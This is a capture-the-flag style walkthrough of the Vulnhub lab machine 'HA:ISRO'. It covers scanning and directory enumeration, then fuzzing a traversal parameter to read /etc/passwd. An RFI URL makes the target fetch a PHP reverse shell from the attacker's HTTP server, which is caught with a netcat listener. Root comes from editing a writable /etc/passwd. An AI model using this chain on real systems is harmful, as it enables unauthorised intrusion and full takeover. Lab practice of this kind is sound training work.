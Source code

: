 # HA:ISRO ~Vulnhub Walkthrough


Here is a walk through for ISRO Vulnhub Machine. It was created by Hacking Articles to give tribute to the Indian Space Research Organisation (ISRO).

Download link -[https://download.vulnhub.com/ha/isro.zip](https://download.vulnhub.com/ha/isro.zip)

## Scanning

nmap -p- 192.168.122.151

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled.png)

nmap -sV -A 192.168.122.151 (Service Version Scanning)

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%201.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%201.png)

nmap -sV -A -p65534 192.168.122.151 

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%202.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%202.png)

## Enumeration

Running nikto 

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%203.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%203.png)

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%204.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%204.png)

dirb [http://192.168.122.151/](http://192.168.122.151/) -X .php,.html

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%205.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%205.png)

Found file connect.php

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%206.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%206.png)

Finding parameter

wfuzz -w /usr/share/wordlists/dirb/common.txt --hl 0 [http://192.168.122.151/connect.php](http://192.168.122.151/connect.php)?FUZZ=../../../../../../etc/passwd

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%207.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%207.png)

Found parameter **file**

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%208.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%208.png)

## Exploitation

File parameter is vulnerable to RFI

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%209.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%209.png)

start python server on your machine and open php-reverse-shell.php file in browser using rfi vulnerability. 

Attacker  - python3 -m http.server 5000

192.168.122.1451/connect.php?file=http://192.168.122.148:5000/php-reverse-shell.php

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2010.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2010.png)

Side by side start netcat listener to take reverse shell

nc -nlvp 1234

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2011.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2011.png)

## Privilege escalation

Checking permissions of /etc/passwd

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2012.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2012.png)

/etc/passwd file is writeble

Edit passwd file and change password for root user.

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2013.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2013.png)

su - root

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2014.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2014.png)

***Got root shell.

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2015.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2015.png)
